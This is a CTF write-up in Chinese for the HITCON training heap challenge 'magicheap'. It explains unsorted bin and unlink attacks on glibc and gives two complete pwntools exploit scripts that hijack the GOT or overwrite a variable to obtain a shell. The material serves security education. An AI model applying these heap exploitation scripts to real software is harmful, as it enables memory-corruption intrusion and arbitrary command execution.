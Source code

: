 ```yaml
---
title: lab14_magicheap
data: 2019-07-22
catagories:
- hitcon_trainning
tags: heap unlink unsortedbin_attack
---
```


<font style='font-size:25px'>Unlink | Unsortedbin_Attack</font>

# unsorted_bin_attack

## unsortedbin

- 一个`chunk`被释放时，当他不属于`fastbin`的范围且不和`top_chunk`相邻，他就会被首先放入`unsortedbin`中。

- `malloc`的时候，如果`fastbin`和`smallbin`里都找不到相应大小的`chunk`，就会去`unsortedbin`里面找。    
    如果大小满足，就会返回相应的`chunk`给用户，不满足，就会将`unsortedbin`中所有的`chunk`放入`smallbin`中。

- 是一个双向链表。   
    - FILO，从链表头部取，放进链表尾部。
    - 取出`chunk`的时候不使用`unlink`的宏。
    ```c
    bck = victim -> bk
    //victim 是当前要取出来的chunk
    unsorted_chunks(av) -> bk = bck 
    bck -> fd = unsorted_chunks(av)
    ```
## attack

- 如果控制了`victim`的bk指向`target_addr - 8`,那么`target_addr`就可以被改写成为`unsorted_bin`的地址。

- 无法更改`target_addr`为指定内容，但可以将其覆盖为一个较大的数字。

    - 可以用来更改循环次数
    - 更改判断流程
    - ......

![ctfwiki图](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/figure/unsorted_bin_attack_order.png)

# 漏洞
一个普通的菜单选择题<font style="font-size:10px">堆的专属题型（bushi</font>。    
提供`create`、`edit` & `delete`，但是`edit`里面没有检查长度造成堆溢出。     
流程中提供一个猜数功能，猜中了就可以调用`system`

# 思路
- 一个错误的想法

一开始是想用`double_free`那种思路，把`fastbins`的某一个`bin`的指针指向`got表`。所以一开始还觉得挺简单的，但很快我就想起了被寻找合适位置冒充`chunk`的`size`域支配的恐惧。     

- `unlink`

我发现基本上所有的堆溢出都可以构造出unlink的利用。只要有类似`nodelist`的指针。 

1. 构造`fake_chunk`,注意`size`大于`0x80`。
2. `delete`触发`unlink`，将`heaparray`指向`atoi`的`got`表。
3. 将`atoi@got`的内容改写成为`system@plt`。
4. 发送`/bin/sh\x00`

    **仍旧`glibc2.27`跑不了。**

- `unsorted bin attack`

    - 看了大佬的`wp`才只知道有这个攻击
    - **`glibc2.27`跑不了。**

![反汇编](https://c-ssl.duitang.com/uploads/item/201907/23/20190723155953_uv5xt.png)   
![l33t](https://c-ssl.duitang.com/uploads/item/201907/23/20190723160231_RvVGR.png)     

这里有个判断，如果`magic`是一个大于`0x1305`的数字就会执行`l33t`这个函数。    
使用`unsorted_bin_attack`更改，执行。
1. 分配3个chunk——第三个是用来隔开`top_chunk`。
2. delete(1)
3. 利用堆溢出更改`chunk_1`的bk域为`magic`的地址。
4. 再次分配一个大小相同的`chunk`。

# exp

## unlink

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc
    atoi_got = elf.got['atoi']
    system_addr = elf.plt['system']
    heaparray = 0x06020E0

    create(0x90,'aaaa')
    create(0x80,'bbbb')
    create(0x80,'cccc')

    fd = heaparray - 24
    bk = heaparray - 16
    payload = p64(0) + p64(0x90) + p64(fd) + p64(bk) + cyclic(0x70) + p64(0x90) + p64(0x90) 

    pause()
    edit(0,len(payload),payload)
    delete(1)

    payload = cyclic(24) + p64(atoi_got)
    edit(0,len(payload),payload)
    
    payload = p64(system_addr)
    edit(0,len(payload),payload)

    sh.sendlineafter("choice :",'/bin/sh\x00')
    
    sh.interactive()
    sh.close()
```

## UnsortedBinAttack

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc

    magic_addr = 0x6020C0

    create(0x10,'aaaa')
    create(0x80,'bbbb')
    create(0x10,'cccc')

    delete(1)
    
    payload = cyclic(0x10) + p64(0) + p64(0x91) + p64(0) + p64(magic_addr - 0x10) 
    edit(0,len(payload),payload)
    
    create(0x80,'dddd')

    sh.sendlineafter('choice :','4869')
    sh.interactive()
    sh.close()
```

# 问题

1. 到底是为什么`glibc2.27`没法跑？

